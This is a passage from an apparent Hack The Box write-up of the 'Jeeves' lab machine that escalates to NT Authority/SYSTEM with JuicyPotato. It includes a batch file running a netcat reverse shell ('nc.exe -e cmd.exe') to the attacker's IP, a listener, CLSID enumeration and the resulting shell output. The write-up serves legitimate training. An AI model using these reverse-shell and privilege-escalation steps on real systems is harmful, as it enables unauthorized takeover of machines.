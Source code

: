 ```console
echo C:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.14.17 1234 > priv.bat
type priv.bat
C:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.14.17 1234
```

First, start a netcat listener.

```console
$ sudo rlwrap -cAr nc -lnvp 1234             
[sudo] password for kali: 
listening on [any] 1234 ...
```

Run the `getclsid_simple.ps1` script to fetch us some **clsids**. sometimes, we may not have rights to execute scripts on the machine. then you can use clsids from here: 

[https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro)

```console
PowerShell.exe -Command "getclsid_simple.ps1"
[truncated]
{054AAE20-4BEA-4347-8A35-64A533254A9D}
{06622D85-6856-4460-8DE1-A81921B41C4B}
{06B2132B-5B99-42A6-B8B6-A1709E191C70}
[Truncated]
```

As all of the clsids are not useful. We need to keep testing all clsids one by one. some clsid might fetch us a reverse shell. 

Run the JuicyPotato.
![Jeeves](/assets/img/htb_jeeves/Jeeves-02.png)

we get netcat shell with **NT Authority/SYSTEM** privileges.

```console
$ sudo rlwrap -cAr nc -lnvp 1234             
[sudo] password for kali: 
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.63] 49787
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

```console
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,539,278,336 bytes free
```